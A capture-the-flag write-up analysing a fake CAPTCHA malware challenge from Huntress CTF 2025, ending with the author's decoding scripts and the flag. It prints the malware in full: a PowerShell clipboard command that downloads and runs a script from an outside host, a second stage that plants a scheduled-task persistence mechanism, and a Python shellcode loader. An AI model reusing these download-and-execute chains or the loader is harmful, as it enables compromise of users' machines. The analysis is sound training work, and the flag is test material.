**CTF Name:** Huntress CTF 2025  
**Challenge name:** 🐞 Verify You Are Human  
**Challenge prompt:**  
> My computer said I needed to update MS Teams, so that is what I have been trying to do...  
> ...but I can't seem to get past this CAPTCHA!  

```  
CAUTION  

This is the Malware category. Please be sure to approach this challenge material within an isolated virtual machine.  
```  

```  
NOTE  

Some components of this challenge may be finicky with the browser-based connection. You can still achieve what you need to, but there may be some more extra steps than if you were to approach this over the VPN.  

    (i.e., "remove the port" when you need to... you'll know what I mean 😜)  
```  

**Challenge category:** Malware  
**Challenge points:** 10  

* * *  

## Steps to solve  

Once we enter the website, we are presented with "Cloudflare" captcha, which after click presents the following:  

  

I am quite familiar with this type of attack, so it was known to me that malicious payload was stored in the user's clipboard:  

```  
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://10.1.252.145/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"  
```  

The above visible malicious payload saves contents of the `http://10.1.252.145/?tic=1` to the LocalAppData as a file called between 5482 and 86245 with `.PS1` extension - which is later executed.  

http://10.1.252.145/?tic=1:  

```  
$JGFDGMKNGD = ([char]46)+([char]112)+([char]121)+([char]99);$HMGDSHGSHSHS = [guid]::NewGuid();$OIEOPTRJGS = $env:LocalAppData;irm 'http://10.1.252.145/?tic=2' -OutFile $OIEOPTRJGS\$HMGDSHGSHSHS.pdf;Add-Type -AssemblyName System.IO.Compression.FileSystem;[System.IO.Compression.ZipFile]::ExtractToDirectory("$OIEOPTRJGS\$HMGDSHGSHSHS.pdf", "$OIEOPTRJGS\$HMGDSHGSHSHS");$PIEVSDDGs = Join-Path $OIEOPTRJGS $HMGDSHGSHSHS;$WQRGSGSD = "$HMGDSHGSHSHS";$RSHSRHSRJSJSGSE = "$PIEVSDDGs\pythonw.exe";$RYGSDFSGSH = "$PIEVSDDGs\cpython-3134.pyc";$ENRYERTRYRNTER = New-ScheduledTaskAction -Execute $RSHSRHSRJSJSGSE -Argument "`"$RYGSDFSGSH`"";$TDRBRTRNREN = (Get-Date).AddSeconds(180);$YRBNETMREMY = New-ScheduledTaskTrigger -Once -At $TDRBRTRNREN;$KRYIYRTEMETN = New-ScheduledTaskPrincipal -UserId "$env:USERNAME" -LogonType Interactive -RunLevel Limited;Register-ScheduledTask -TaskName $WQRGSGSD -Action $ENRYERTRYRNTER -Trigger $YRBNETMREMY -Principal $KRYIYRTEMETN -Force;Set-Location $PIEVSDDGs;$WMVCNDYGDHJ = "cpython-3134" + $JGFDGMKNGD; Rename-Item -Path "cpython-3134" -NewName $WMVCNDYGDHJ; iex ('rundll32 shell32.dll,ShellExec_RunDLL "' + $PIEVSDDGs + '\pythonw" "' + $PIEVSDDGs + '\'+ $WMVCNDYGDHJ + '"');Remove-Item $MyInvocation.MyCommand.Path -Force;Set-Clipboard  
```  

Above payload downloads a disguised ZIP, extracts a Python payload to LocalAppData, executes it, and sets delayed persistence.  
- Builds the string ".pyc" and creates a random GUID name for a working folder  
- Downloads from http://10.1.252.145/?tic=2 to LocalAppData as GUID.pdf (actually a ZIP) and extracts to LocalAppData\GUID  
- Identifies pythonw.exe and cpython-3134.pyc inside the extracted folder  
- Registers a scheduled task (runs in 180 seconds under the current user) to execute pythonw.exe with the .pyc  
- Renames cpython-3134 to cpython-3134.pyc and launches it immediately via rundll32 ShellExec_RunDLL (silent)  
- Deletes the original PowerShell script and clears the clipboard  

http://10.1.252.145/?tic=2 hosts an downloadable archive file:  

  

After extraction, index directory is visible, and it's contents are:  

  

  

```  
aW1wb3J0IGN0eXBlcwoKZGVmIHhvcl9kZWNyeXB0KGNpcGhlcnRleHRfYnl0ZXMsIGtleV9ieXRlcyk6CiAgICBkZWNyeXB0ZWRfYnl0ZXMgPSBieXRlYXJyYXkoKQogICAga2V5X2xlbmd0aCA9IGxlbihrZXlfYnl0ZXMpCiAgICBmb3IgaSwgYnl0ZSBpbiBlbnVtZXJhdGUoY2lwaGVydGV4dF9ieXRlcyk6CiAgICAgICAgZGVjcnlwdGVkX2J5dGUgPSBieXRlIF4ga2V5X2J5dGVzW2kgJSBrZXlfbGVuZ3RoXQogICAgICAgIGRlY3J5cHRlZF9ieXRlcy5hcHBlbmQoZGVjcnlwdGVkX2J5dGUpCiAgICByZXR1cm4gYnl0ZXMoZGVjcnlwdGVkX2J5dGVzKQoKc2hlbGxjb2RlID0gYnl0ZWFycmF5KHhvcl9kZWNyeXB0KGJhc2U2NC5iNjRkZWNvZGUoJ3pHZGdUNkdIUjl1WEo2ODJrZGFtMUE1VGJ2SlAvQXA4N1Y2SnhJQ3pDOXlnZlgyU1VvSUwvVzVjRVAveGVrSlRqRytaR2dIZVZDM2NsZ3o5eDVYNW1nV0xHTmtnYStpaXhCeVRCa2thMHhicVlzMVRmT1Z6azJidURDakFlc2Rpc1U4ODdwOVVSa09MMHJEdmU2cWU3Z2p5YWI0SDI1ZFBqTytkVllrTnVHOHdXUT09JyksIGJhc2U2NC5iNjRkZWNvZGUoJ21lNkZ6azBIUjl1WFR6enVGVkxPUk0yVitacU1iQT09JykpKQpwdHIgPSBjdHlwZXMud2luZGxsLmtlcm5lbDMyLlZpcnR1YWxBbGxvYyhjdHlwZXMuY19pbnQoMCksIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSksIGN0eXBlcy5jX2ludCgweDMwMDApLCBjdHlwZXMuY19pbnQoMHg0MCkpCmJ1ZiA9IChjdHlwZXMuY19jaGFyICogbGVuKHNoZWxsY29kZSkpLmZyb21fYnVmZmVyKHNoZWxsY29kZSkKY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX2ludChwdHIpLCBidWYsIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSkpCmZ1bmN0eXBlID0gY3R5cGVzLkNGVU5DVFlQRShjdHlwZXMuY192b2lkX3ApCmZuID0gZnVuY3R5cGUocHRyKQpmbigpz  
```  

Selected section looks like base64:  

  

Decoded python code:  

```python  
import ctypes  

def xor_decrypt(ciphertext_bytes, key_bytes):  
    decrypted_bytes = bytearray()  
    key_length = len(key_bytes)  
    for i, byte in enumerate(ciphertext_bytes):  
        decrypted_byte = byte ^ key_bytes[i % key_length]  
        decrypted_bytes.append(decrypted_byte)  
    return bytes(decrypted_bytes)  

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))  
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))  
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)  
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))  
functype = ctypes.CFUNCTYPE(ctypes.c_void_p)  
fn = functype(ptr)  
fn()  
```  

My script `./Verify You Are Human/constructShellcode.py`:  

```python  
import base64  


def xor_decrypt(ciphertext_bytes, key_bytes):  
    decrypted_bytes = bytearray()  
    key_length = len(key_bytes)  
    for i, byte in enumerate(ciphertext_bytes):  
        decrypted_byte = byte ^ key_bytes[i % key_length]  
        decrypted_bytes.append(decrypted_byte)  
    return bytes(decrypted_bytes)  


if __name__ == "__main__":  
    shellcode = bytearray(  
        xor_decrypt(  
            base64.b64decode(  
                "zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=="  
            ),  
            base64.b64decode("me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA=="),  
        )  
    )  
    with open("shellcode.bin", "wb") as f:  
        f.write(shellcode)  
    print(shellcode)  

```  

  

I renamed shellcode.bin to shellcode.sc and run scdbgc:  

  

As it can be seen from the assembly above, dword values are pushed onto the stack and later each of the bits is XOR'red with 0xa5  

I wrote second python script `./Verify You Are Human/getFlag` to reconstruct the flag from the pushed DWORD values that are XOR'red with 0xa5:  

```python  
# Based on the assembly code analysis of the deconstructed shellcode,  
# this script reconstructs the flag directly as if the shellcode had been executed.  

if __name__ == "__main__":  
    pushedDWORDs = [  
        b"\x93\xd8\x84\x84",  
        b"\x90\xc3\xc6\x97",  
        b"\xc3\x90\x93\x92",  
        b"\x90\xc4\xc3\xc7",  
        b"\x9c\x93\x9c\x93",  
        b"\xc0\x9c\xc6\xc6",  
        b"\x97\xc6\x9c\x93",  
        b"\x94\xc7\x9d\xc1",  
        b"\xde\xc1\x96\x91",  
        b"\xc3\xc9\xc4\xc2",  
    ]  
    # Combine the DWORDs in reverse order to reconstruct the original byte sequence  
    pushedBytes = b"".join(reversed(pushedDWORDs))  
    decoded = bytes([b ^ 0xA5 for b in pushedBytes])  
    print(decoded.decode())  
```  

  

The deconstruction of the flag was successful.  

**FLAG:** flag{d341b8d2c96e9cc96965afbf5675fc26}  
